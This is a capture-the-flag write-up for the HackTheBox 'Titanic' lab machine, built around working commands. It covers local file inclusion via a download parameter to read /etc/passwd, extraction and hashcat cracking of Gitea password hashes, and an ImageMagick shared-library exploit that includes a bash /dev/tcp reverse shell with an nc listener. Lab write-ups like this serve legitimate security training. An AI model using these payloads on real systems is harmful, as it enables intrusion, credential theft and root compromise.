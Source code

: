 # HTB Titanic Box


### Ping the Machine
### Do Enum (found ssh and tcp on port 80)

## Start by looking for vulnerabilities on the webpage

- Create a ticket on the website (notice that we got a JSON file as a response)
- Run Dirsearch on the website (found `/download` and `/book`, and both seem to require arguments)
- `/download` definitely seems to be vulnerable as when we run it alone:
  ```
  http://titanic.htb/download
  ```
  we get "ticket not found" as a response, which means it takes `ticket` as an argument.

The ticket we created previously had the name:

```
59be286b-a172-4bf7-8c8e-3fb0c6793417.json
```

Try this:

```
http://titanic.htb/download?ticket=59be286b-a172-4bf7-8c8e-3fb0c6793417.json
```

and notice that the ticket file was downloaded again.

This means it has poor sanitation and possibly introduces a **Local File Inclusion (LFI)** vulnerability.

Try this:

```
http://titanic.htb/download?ticket=/etc/passwd
```

and see it being downloaded (this means files are exposed), confirming we can exploit LFI.

---

### Exploring the Files

- The obtained file shows users and services on the machine. There is a `developer` user.
- However, the password is not included (sometimes the password hash could be included there).
- Try also `/etc/shadow`, but we don't have access to it (seems accessible only by root).
- Try `/etc/hosts` to see:
  ```
  127.0.0.1 localhost titanic.htb dev.titanic.htb
  127.0.1.1 titanic
  ```
  and notice this `dev.titanic.htb` subdomain.

We traverse to it on the web (after adding this path to `/etc/hosts` 😉) and find a webpage with:

> "Gitea: Git with a cup of tea" as the title.

---

### Exploring Gitea

- Navigate to the **Explore** tab, and we see 2 Gitea repositories for the developer.
- In `docker-config/mysql/docker-compose.yml`, we find sensitive data (but my solution does not use it):
  ```
  MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
  MYSQL_DATABASE: tickets
  MYSQL_USER: sql_svc
  MYSQL_PASSWORD: sql_password
  ```
- In `docker-config/gitea/docker-compose.yml`, we see an important path:
  ```
  /home/developer/gitea/data:/data
  ```
  The Gitea database could be located there.

After some testing, we successfully download the database with:

```
curl -s http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db -o gitea.db
```

#### Extracting Credentials from Gitea Database

```sh
sqlite3 gitea.db
sqlite> .tables
sqlite> SELECT * FROM user;
```

Now, extract the credentials:

```sh
sqlite> .headers on;
sqlite> SELECT lower_name, passwd, salt FROM user;
```

Output:

```
lower_name|salt|passwd
administrator|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
```

To crack the password, we use **Hashcat**.
First, convert the password into the required format:

```
sha256:<iterations>:<salt_b64>:<hash_b64>
```

Use the script from here to reach this format: [https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)

After formatting, run:

```sh
hashcat -m 10900 gitea_hash.txt rockyou.txt
```

(Administrator password does not exist in rockyou.txt wordlist, but we find the **developer** password!). Nice, now we have developer password.

---

### SSH Access

```sh
ssh developer@10.10.11.55
```

Inside `/home/developer`, we find **user.txt** with the user flag:

```sh
cat user.txt
```

---

## Privilege Escalation

After spending time on LinPEAS and other common methods, we refer to this write-up for a direction:
[https://infosecwriteups.com/hackthebox-titanic-writeup-5f549dd90f38](https://infosecwriteups.com/hackthebox-titanic-writeup-5f549dd90f38)

It highlights an **ImageMagick Exploit** (for versions **7.1.1-35 or less**), which allows **arbitrary code execution**.

### Understanding the Exploit

The script at `/opt/scripts/identify_images.sh` contains:

```sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

### Exploiting ImageMagick

The **ImageMagick** library scans the folder mentioned in `identify_images.sh` **regularly** (which is `/opt/app/static/assets/images/` in this case), likely when the webpage is refreshed. By crafting a **malicious shared library**, we execute arbitrary commands when `identify` processes it.

#### The payload using "shared library approach" would be created like this (under the same images folder):

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```

After you create it, wait a little, and refresh the webpage (in Firefox in my case), and try doing `cat tmp/root.txt` to see the root flag.

However, if you want to create a **reverse shell** payload, you can do the following:

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
__attribute__((constructor)) void init(){
    system("/bin/bash -c '/bin/bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'");
    exit(0);
}
EOF
```

Replace `<YOUR_IP>` with `0.0.0.0` or your specific IP if different.

Then immediately run:

```sh
nc -lvnp 4444
```

And refresh the page (Firefox in my case) to see that you have caught a **shell running with root privileges**. You can prove it by navigating to the root folder.&#x20;

Nice job, you solved it! 🎉

